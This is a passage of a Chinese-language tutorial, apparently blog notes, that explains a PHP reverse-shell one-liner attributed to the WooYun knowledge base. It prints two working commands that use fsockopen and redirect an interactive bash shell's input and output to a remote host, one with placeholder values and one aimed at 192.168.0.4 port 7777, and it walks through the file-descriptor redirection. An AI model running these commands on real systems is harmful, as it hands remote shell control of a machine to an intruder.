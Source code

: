 



还有一个是之前乌云知识库上的一个姿势，使用php的fsockopen去连接远程：



```
php -r '$sock=fsockopen("ip",port);exec("/bin/bash -i <&3 >&3 2>&3");'
```





![fmLfgB7mg1.png](Untitled.assets/15319949062945.png)![JbLmF1b3l9.png](Untitled.assets/15319949145712.png)





这个姿势看起来有一些难以理解，尤其是还出现了`<&`这个符号，当然如果把&看着是取地址符或者是引用，那还是可以理解的，为了更方便的理解，我在这将这条命令稍微修改了一下，类似于前面的第二种方法。













有了之前的基础，我们知道3代表的是使用fsockopen函数建立socket返回的文件描述符，这里将标准输入，标准输出和标准错误输出都重定向到了远程





在CentOS上反向连接，输入：



```
php -r '$sock=fsockopen("192.168.0.4",7777);exec("/bin/bash -i 0>&3 1>&3 2>&3");'
```




